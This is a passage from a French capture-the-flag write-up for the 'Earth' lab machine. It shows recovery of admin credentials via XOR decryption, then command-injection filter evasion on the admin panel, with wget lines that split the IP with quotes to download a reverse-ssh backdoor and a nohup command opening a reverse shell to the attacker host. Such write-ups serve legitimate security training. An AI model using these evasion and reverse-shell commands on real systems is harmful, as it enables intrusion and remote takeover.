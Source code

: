 Qui nous même à *https://terratest.earth.local/testingnotes.txt* et le contenu qui suit :  

> Testing secure messaging system notes:  
> 
> \*Using XOR encryption as the algorithm, should be safe as used in RSA.  
> 
> \*Earth has confirmed they have received our sent messages.  
> 
> \*testdata.txt was used to test encryption.  
> 
> \*terra used as username for admin portal.  
> 
> Todo:  
> 
> \*How do we send our monthly keys to Earth securely? Or should we change keys weekly?  
> 
> \*Need to test different key lengths to protect against bruteforce. How long should the key be?  
> 
> \*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.

En effet si j'applique comme clé le contenu de *testdata.txt* présent sur le site pour le 3ème message j'obtiens en clair le message *earthclimatechangebad4humans* répété en boucle.  

Voyager
-------

*https://earth.local/* semble en tout point semblable à son équivalent non sécurisé pourtant on peut trouver un dossier *admin* à la racine du site.  

Armé des infos précédentes je peux me connecter sur cette zone administrateur avec *terra* / *earthclimatechangebad4humans*.  

L'interface très basique demande de saisir une commande et donne son résultat en output.  

Si on tente de rentrer une IP en revanche on obtient un message *Remote connections are forbidden* à la place.  

Ainsi la commande suivante était bloquée :  

```bash
wget http://192.168.56.1/reverse-sshx64 -O /tmp/reverse-sshx64
```

mais avec quelques actuces simples on peut passer le filtre :  

```bash
wget 'ht''tp://192.''168.''56.''1/reverse-sshx64' -O /tmp/reverse-sshx64
```

On pourrait tout aussi bien passer par un encodage (hexa, base64, etc) voire utiliser une notation différente pour l'adresse IP.  

Une fois la backdoor téléchargée et les permissions modifiées je peux l'exécuter. J'utilise *nohup* pour éviter que le programme crashe quand le script web a terminé son exécution et ferme ses entrées.  

```bash
nohup /tmp/reverse-sshx64 -v -p 2244 '192.''168.56.1' &
```
